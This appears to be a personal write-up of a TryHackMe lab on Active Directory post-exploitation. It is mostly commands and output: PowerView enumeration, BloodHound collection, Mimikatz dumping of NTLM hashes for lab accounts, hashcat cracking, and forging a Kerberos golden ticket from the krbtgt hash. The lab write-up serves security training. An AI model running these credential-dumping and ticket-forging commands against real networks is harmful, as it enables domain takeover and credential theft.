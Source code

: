 # [Post-Exploitation Basics](https://tryhackme.com/room/postexploit)
Learn the basics of post-exploitation and maintaining access with mimikatz, bloodhound, powerview and msfvenom

6/23/22

## Summary:
- [Powerview](#powerview)
- [Bloodhound](#bloodhound)
- [Mimikatz](#mimikatz)
- [Golden ticket](#golden-ticket)

## Powerview
- First we can list active shares with `Invoke-ShareFinder` and exclude the standard ones

![image](https://user-images.githubusercontent.com/66894542/175456049-c618707b-b7d7-4cfc-86c8-a03f629a5691.png)

- We can get more information about the computers on the domain with `get-netcomputer` and filter down the content to get exactly what we want:

![image](https://user-images.githubusercontent.com/66894542/175456369-8e44bb0c-e51e-4c72-a683-9cc3685a62b6.png)

- We can also get more information about the domain users with `get-netuser`:

![image](https://user-images.githubusercontent.com/66894542/175456579-91721fdf-8193-438f-b69c-94d4b0220ca6.png)

## Bloodhound
`Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`
```
-----------------------------------------------
Initializing SharpHound at 10:10 PM on 7/2/2022
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps
, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Conf
iguration,DC=CONTROLLER,DC=LOCAL
PS C:\Users\Administrator> [+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 72 MB RAM
Status: 66 objects finished (+66 8)/s -- Using 81 MB RAM
Enumeration finished in 00:00:00.8277381
Compressing data to C:\Users\Administrator\20220702221007_loot.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:10 PM on 7/2/2022! Happy Graphing!
```

Now we can transfer this file over to our machine with scp:
`scp administrator@10.10.181.226:20220702221007_loot.zip .`

Now we can run the prebuilt queries to see what we can find!

## Mimikatz
```
PS C:\Users\Administrator\Downloads> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )        
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )       
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/       

mimikatz # privilege::debug 
Privilege '20' OK 

mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf 

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService 
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 60f56c1191d1b4b46fb87e511563a3a6

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a

```
Now We can crack some hashes with hashcat! Let's crack machine1 password:

`hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`

## Golden ticket
`lsadump::lsa /inject /name:krbtgt `
```
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c
```
Now we can use this info to build the command for the golden ticket:

`kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`
```
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 7/2/2022 10:41:23 PM ; 6/29/2032 10:41:23 PM ; 6/29/2032 10:41:23 PM

-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

Now we have access to any machine in the domain!
